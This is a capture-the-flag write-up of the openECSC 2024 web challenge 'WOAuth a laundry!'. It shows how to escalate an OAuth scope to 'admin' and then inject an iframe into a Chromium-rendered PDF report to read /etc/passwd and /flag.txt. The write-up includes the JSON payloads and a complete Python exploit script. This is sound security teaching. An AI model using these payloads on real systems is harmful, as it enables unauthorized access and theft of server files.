








# openECSC 2024 - Round 2

## [web] WOAuth a laundry! (239 solves)

Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.

Flag is in `/flag.txt`.

Site: [http://woauthalaundry.challs.open.ecsc2024.it](http://woauthalaundry.challs.open.ecsc2024.it)

Author: Vittorio Mignini <@M1gnus>, Simone Cimarelli <@Aquilairreale>

## Solution

### Foothold

The most interesting thing in home page is a Login button. Once clicked, immediatly an OAuth implicit flow is started, and in browser's session storage appear an `access_token` and an entry named `admin`:




By changing `admin` from 0 to 1 and refreshing the page a new section named `Admin` appears:



By clicking the button a request is sent to the server, but it's answer is `401 Unauthorized`.



### OAuth scope

By analyzing the authentication request sent to the openid provider is immediatly clear that the default scope assigned is `openid laundry amenities`, and using this scope the access to sections `Laundry` and `Amenities` is granted:



The guess is that to obtain access to `Admin` section the scope value `admin` is needed and a good way to obtain the scope is trying to add it to the request sent to `/openid/authentication`:



By using the resulting access token the access to endpoint `/admin` and `/generate-report` is granted. The endpoint returns a list of "admin endpoints" with methods and example bodies:
```json
{
    "admin_endpoints" : [
        {
            "exampleBody": {
                "requiredBy" : "John Doe"
            },
            "methods" : [
                "POST"
            ],
            "path":"/generate_report"
        }
    ]
}
```

### Skia LFI

By trying to craft a request to the endpoint we obtain a PDF report:


A close inspection to the returned PDF shows that the file has been created with Chromium (Skia):


A nice thing to try is HTMLInjection, which can lead to LFI (Local File Inclusion). A good try is to use an iframe to include `/etc/passwd`:

```json
{
"requiredBy":"<iframe src=\"file:///etc/passwd\"></iframe>"
}
```



It works! so maybe also `/flag.txt` can be included:

```json
{
"requiredBy":"<iframe src=\"file:///flag.txt\"></iframe>"
}
```



## Exploit
```py
import re
import os
import requests

ACCESS_TOKEN_RE = re.compile(r"access_token=([^&]+)")
URL = os.environ.get("URL", "http://192.168.178.20")

s = requests.Session()
client_id = s.get(f"{URL}/api/v1/creds").json()["client_id"]
access_token = ACCESS_TOKEN_RE.search(
    s.get(f"{URL}//openid/authentication?response_type=token%20id_token&client_id={client_id}&scope=openid%20laundry%20amenities%20admin&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce") \
     .text
).group(1)
print(f"ACCESS_TOKEN: {access_token}")

pdf_flag = s.post(f"{URL}/api/v1/generate-report",
    json={"requiredBy": "<iframe src=\"file:///flag.txt\"></iframe>"},
    headers={"Authorization": f"Bearer {access_token}"}
)

with open("./flag.pdf", "wb") as f:
    f.write(pdf_flag.content)
print("FLAG WROTE IN ./flag.pdf")


```
